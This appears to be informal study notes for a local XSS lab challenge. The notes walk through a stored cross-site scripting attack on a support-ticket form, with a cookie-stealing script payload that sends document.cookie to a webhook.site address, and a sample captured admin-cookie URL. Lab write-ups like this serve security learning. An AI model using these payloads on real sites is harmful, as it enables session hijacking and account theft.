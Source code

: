 Since our first payload already has a set cookie which we set manually earlier lets come from container two and try something like <script>alert(document.cookie)</script>

Go back to container 1 and refresh and u see that we get the cookie
Best Practice set the cookie to HTTP only which is a flag that prevents JavaScript from accessing your cookie 
Play around and test some other payloads as well


#  ==CHALLENGE==

## [Labs](http://localhost/index.php) / XSS 0x03

## Support portal

### Fill in the form below to submit a support ticket.

Our team will check it ASAP!

### Support ticket


Coming to the challenge we get a form to submit a support ticket 

from container 1 submit a ticket 
from container 2 add endpoint to the url `_admin.php`
And the goal of this is to steal the admin cookie but not just pop it in alert box exfiltrate it 

Hint use netcat to listen locally or webhook.site which will give you unique address that you can make calls to 

Container 1 create a payload 
Container 2 trigger that payload 
Receive a request with contents of the administrator cookie

We control the admin and the normal user we could do some we can do some testing we can inject some HTML or we can inject some JavaScript 

Send a ticket from Jeremy
Create a new image on the screen and then set the source of that image to HTTPS webhook.site  a unique URI and then append to the document.cookie 
payload = <script> var i = new Image; i.src=""+document.cookie</script>
copy the address from webhook and paste in between the quotation and then we obviously want our cookie to be a parameter on the end so add `/?` at the end so what will happen when admin loads the page `var i`  will create a new image and a source of that image will be HTTP webhook site our unique URL and then `/?` at the end and the parameter would be `document.cookie`

When this processed browser would say we need the image from webhook.site and it will send the address to us and obviously instead of `+document.cookie` we will get the contents 

`https://webhook.site/bf49b1ad-4b3e-4048-a275-27f8c6045207/?admin_cookie=5ac5355b84894ede056ab81b324c4675`

verify this using console `document.cookie` in container 2
